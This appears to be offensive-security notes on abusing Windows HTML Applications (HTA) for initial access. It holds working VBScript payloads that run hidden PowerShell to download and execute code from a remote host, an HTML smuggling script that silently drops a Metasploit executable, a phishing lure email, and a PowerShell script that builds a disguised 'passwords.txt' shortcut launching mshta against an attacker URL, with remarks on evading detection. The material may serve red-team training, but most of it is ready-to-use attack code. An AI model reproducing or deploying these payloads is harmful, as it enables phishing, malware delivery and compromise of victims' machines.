


An HTML Application (HTA) is a proprietary Windows program whose source code consists of HTML and one or more scripting languages supported by Internet Explorer (`VBScript` and `JScript`). The HTML is used to generate the user interface and the scripting language for the program logic. An HTA executes without the constraints of the browser's security model, so it executes as a "fully trusted" application.

An HTA file is executed using `mshta.exe`, which is typically installed along with Internet Explorer.

> **Note**: `mshta` is dependant on Internet Explorer, so if it has been uninstalled, HTAs will be unable to execute.

HTA files has the `.hta` extension.

## Executing x64 powershell payload

```html
<html>
  <head>
    <title>Hello World</title>
  </head>
  <body>
    <h2>Hello World</h2>
    <p>This is an HTA...</p>
  </body>

  <script language="VBScript">
    Function Magic()
      Set shell = CreateObject("wscript.Shell")
      shell.run "C:\Windows\sysnative\WindowsPowerShell\v1.0\powershell.exe -nop -w hidden -c ""IEX ((new-object net.webclient).downloadstring('http://10.10.10.10/a'))"""
    End Function

    Magic
  </script>

</html>
```

## Checking the architecture and executing powershell payload

```html
<html>
  <head>
    <title>Hello World</title>
  </head>
  <body>
    <h2>Hello World</h2>
    <p>This is an HTA...</p>
  </body>

  <script language="VBScript">
	Function Magic()
	  Set shell = CreateObject("wscript.Shell")

	  If shell.ExpandEnvironmentStrings("%PROCESSOR_ARCHITECTURE%") = "AMD64" Then
	    shell.run "powershell.exe -nop -w hidden -c ""IEX ((new-object net.webclient).downloadstring('http://10.10.10.10/a'))"""
	  Else
	    shell.run "powershell.exe -nop -w hidden -c ""IEX ((new-object net.webclient).downloadstring('http://10.10.10.10/b'))"""
	  End If

	End Function

    Magic
  </script>

</html>
```

## Delivery

Different ways to deliver our code:

### Phishing

By default, Outlook has filetype filtering in order to prevent you from attaching certain files to emails.



Instead of attaching, we can just host the file on a server and send a link to the victim.

```html
<html>
<body>
	<p>Hi Miguel,</p>
	<p>Please fill this <a href="/staff">form</a> as soon as possible.</p>
	<p>Best regards,</p>
	
</body></html>
```


### HTML Smuggling

It is a discret delivery method of payloads. An attacker can embed a link in an email. When the victim reads the email and visits the webpage, js code will use html smuggling to automatically save the dropper file.

```html
<html>
    <script>
        function base64ToArrayBuffer(base64){ 
            var binary_string = window.atob(base64); 
            var len = binary_string.length; 
            var bytes = new Uint8Array( len ); 
            for (var i = 0; i < len; i++) { bytes[i] = binary_string.charCodeAt(i); } 
            return bytes.buffer; 
        }
        var file ='TVqQAAMAAAAEAAAA//8AALgAAAAAAAAAQAAAAA...
        var data = base64ToArrayBuffer(file); 
        var blob = new Blob([data], {type: 'octet/stream'}); 
        var fileName = 'msfstaged.exe'; 
        var a = document.createElement('a'); 
        document.body.appendChild(a); 
        a.style = 'display: none'; 
        var url = window.URL.createObjectURL(blob); 
        a.href = url; 
        a.download = fileName; 
        a.click(); 
        window.URL.revokeObjectURL(url);
    </script>
</html>
```

It will be executed once the victim enters to the download folder and execute it manually.

>  **Note**: The binary is marked with MoTW cause is downloaded through a brower. This means that Windows will execute the SmartScreen feature to avoid the binary of beeing executed.

### Evil link

We can create a shortcut file and store our `.hta` file on a webserver.

```powershell
$WshShell = New-Object -ComObject WScript.Shell
$Shortcut = $WshShell.CreateShortcut("$env:USERPROFILE\Desktop\passwords.txt.lnk")
$Shortcut.TargetPath = "C:\Windows\system23\mshta.exe "
$Shortcut.Arguments = "http://atacker.ip/file.hta"
$Shortcut.WorkingDirectory = "C:\Windows"
$Shortcut.Description = "Plain text"
$Shortcut.IconLocation = "C:\Windows\system32\imageres.dll,-102"
$Shortcut.Save()
```

> **Note**: `mshta.exe` will download the `.hta` file before its execution, so we must still bypass any installed endpoint detection.